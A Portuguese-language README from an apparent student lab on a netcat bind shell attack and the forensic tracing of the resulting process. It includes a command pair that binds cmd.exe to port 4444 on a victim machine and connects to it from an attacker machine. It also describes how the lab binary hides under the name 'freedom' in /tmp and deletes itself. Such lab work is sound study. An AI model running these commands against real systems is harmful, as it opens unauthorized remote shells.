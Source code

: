 # bind-shell-attack

Nessa atividade foi necessário simular um bind shell attack, e após isso, no computador da vitima, recuperar o arquivo binário deletado desse ataque e analisar esse processo suspeito.

- Nesse ataque de backdoor foi utilizado o netcat, por mais que existam outras maneiras de realizar esse tipom de ataque.

Em um bind shell attack o computador da vítima é capaz de transmitir o executavel do bash, ou cmd, através de uma porta específica, para o computador da pessoa que deseja realizar esse ataque. No caso do netcat o atacante necessita fazer com que a vítima rode uma linha de comandos, transmitindo o bash para o computador do atacante. No caso do bind shell, o computador da vítima fica esperando que o computador de ataque se conecte ao ip e a porta.

Ex:
  C:\Program Files (x86)\Nmap>ncat -lvp 4444 -e cmd.exe  -> computador da vítima 
  
  nc 192.168.56.1 4444 -> computador de ataque
  
Na atividade o netcat abre a porta tcp 41000 e envia informações para /dev/null do computador da vitima. Além disso ele mascara o nome do programa para "freedom",é colocado no diretorio /tmp(arquivos temporários), e após executado é removido, sobrando apenas o seu processo em execução.

![freedom](https://user-images.githubusercontent.com/44793167/96667221-06003680-132f-11eb-868f-c891f98685aa.jpg)

Após isso, na atividade era necessário utilizar o "nestat -nalp" para verificar a porta que esta aberta e o processo que está ocorrendo naquela porta, porém meu netstat não estava funcionando, mas foi possivel ver o processo em execução através do "ps", com o PID 16725.

![ps](https://user-images.githubusercontent.com/44793167/96667414-7018db80-132f-11eb-8ec3-24d72cb90de8.jpg)

Com o PID do nosso processo duvidoso, foi possível ver diversas informações sobre ele:

![info](https://user-images.githubusercontent.com/44793167/96667592-b5d5a400-132f-11eb-9272-0a0897fbe5ba.jpg)

